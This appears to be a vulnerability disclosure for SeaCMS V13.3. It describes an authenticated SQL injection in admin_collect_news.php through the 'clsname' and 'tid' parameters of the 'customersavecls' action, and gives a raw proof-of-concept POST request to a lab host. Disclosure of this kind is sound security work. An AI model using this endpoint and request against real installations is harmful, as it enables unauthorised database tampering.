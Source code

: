 Seacms V13.3 has an SQL injection vulnerability that allows an authenticated attacker to exploit the database.

Download address：https://www.seacms.com/download/



![image-20250114112532792](images/image-20250114112532792.png)



The vulnerability is located in the admin_collect_news.php file, starting at line 479, if the value of '$action' is' customersavecls' and the $e_id option exists, then proceed further. You can see that 488 gets the class name 'clsname' and the system class ID 'tid' from the POST request, and further down, if the class name is not empty, constructs and executes an SQL update statement, Update the new class name 'clsname' and system class ID 'tid' to the corresponding record in the database's 'sea_co_cls' table. There are SQL statement concatenation in this code, and there are controllable parameters, which can cause SQL injection problems.



![image-20250114142050259](images/image-20250114142050259.png)



```
POST /seacms/bf6nbn/admin_collect_news.php?action=customersavecls HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Referer: http://192.168.80.152/seacms/bf6nbn/admin_collect_news.php?action=customercls
Cookie: PHPSESSID=s5fhh9q24e7k8rjpi28g6o3j40; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MTA6InBocCB8IHBocD8iO3M6MzoiYWxsIjtpOjA7czozOiJodGEiO2k6MTt9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 114

e_id%5B%5D=10&clsname10=1&tid10=17&Submit=%E6%89%B9%E9%87%8F%E4%BF%AE%E6%94%B9%E9%80%89%E4%B8%AD%E5%88%86%E7%B1%BB
```



![image-20250114035211404](images/image-20250114035211404.png)

